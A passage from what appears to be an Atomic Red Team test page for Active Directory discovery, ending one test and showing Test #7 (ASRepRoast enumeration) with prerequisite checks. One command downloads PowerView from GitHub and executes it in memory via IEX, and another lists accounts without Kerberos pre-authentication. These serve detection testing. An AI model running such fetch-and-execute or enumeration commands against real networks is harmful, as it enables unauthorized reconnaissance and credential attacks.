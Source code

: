 
#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-GPOComputerAdmin -ComputerName #{computer_name} -Verbose
```






<br/>
<br/>

## Atomic Test #7 - Enumerate Users Not Requiring Pre Auth (ASRepRoast)
When successful, accounts that do not require kerberos pre-auth will be returned

**Supported Platforms:** Windows


**auto_generated_guid:** 870ba71e-6858-4f6d-895c-bb6237f6121b






#### Attack Commands: Run with `powershell`! 


```powershell
get-aduser -f * -pr DoesNotRequirePreAuth | where {$_.DoesNotRequirePreAuth -eq $TRUE}
```




#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined.
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually.
```
##### Description: Requires the Active Directory module for powershell to be installed.
##### Check Prereq Commands:
```powershell
if(Get-Module -ListAvailable -Name ActiveDirectory) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -Online -Name "Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0"
```
